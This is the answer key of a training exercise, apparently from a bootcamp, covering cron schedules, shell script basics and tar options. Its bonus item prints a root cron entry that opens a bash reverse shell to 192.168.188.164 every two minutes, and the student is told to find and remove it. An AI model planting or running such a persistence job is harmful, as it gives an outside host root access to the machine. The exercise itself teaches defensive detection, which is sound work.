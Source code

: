 ## Solution File: Reviewing Crons

- As a junior administrator at Rezifp Pharma Inc., you have been using `tar` and `cron` to schedule user and system-wide jobs for maintenance and security tasks.

- A recently instated company-wide mandate is requiring the all IT staff to take bi-monthly assessments based on their job's defined operational procedures. Today's assessment is based on `tar` and `cron`. 


### Solutions 

1. Answer the following `cron` assessment questions:

    - When will the following `cron` schedules run?

      `*/10 * * * *` 

       - **Solution**: At every 10th minute.

    - What event is the following `cron` a minute away from?

      - `59 23 31 12 *`

       - **Solution**: New Years!

    - What do the following hypothetical `cron` likely do?

      - `0 22 * * 1-5 /home/Bob/Sales/sum_of_sales.sh`

            - **Solution**: Run a script that adds up all the sales for the work day.

      - `@weekly /home/sysadmin/Scripts/auto-update.sh`

            - **Solution**: A weekly automated system upate.

2. Answer the following `script` assessment questions:

    - What is a _shebang_?

        - **Solution**: It is the commented file declaration at the top of a shell script.

    - What two characters should come before the filename of a script that is executable by the user, is in the current directory and that is not in $PATH?

        - **Solution**: `./`

    - Jane's script has _user_ and _group_ ownership of a script with `-rw-r--r--` permissions, but gets a permission denied error when she tries to run it. What is one thing she needs to do to the file before it will run?

        - **Solution**: Run `chmod +x` on her file!

3. Answer the following `tar` assessment questions:

    - How does the `-x` option modify the `tar` command?

        - **Solution**: This option will let `tar` extract an archive!

    - If a directory has `ten` files and two subdirectories with one file in each and the following command is used in it, how many files are being archived?

      -  `tar cvvWf backups/archive.tar .`

            - **Solution**: Twelve, the ten plus the two subdirectory files.  Note it will not archive itself even though it is in the current directory.

    - What option prints the full file specification of files as they are archived?

        - **Solution**: `-vv`

    - Why is the `-f` option used in almost every `tar` operation?

        - **Solution**: The `-f` option lets you designate a `tar` file to either _create_ or _extract_ or _list_ from.

4. **Bonus**: You are tasked to look through the `cron` jobs within your current workstation to see if any suspicious or modified cron jobs exist. Remove the one that matches the following descriptions:

   - `Cron` is running system-level jobs with `root` privileges.

   - The `cron` task you're looking for involves another machine.

   - Run: `sudo crontab -e` to open the `root` `crontab`.

   - The cron you wanted to remove was:

   - `*/2 * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.188.164/888 0>&1`

---
© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.  
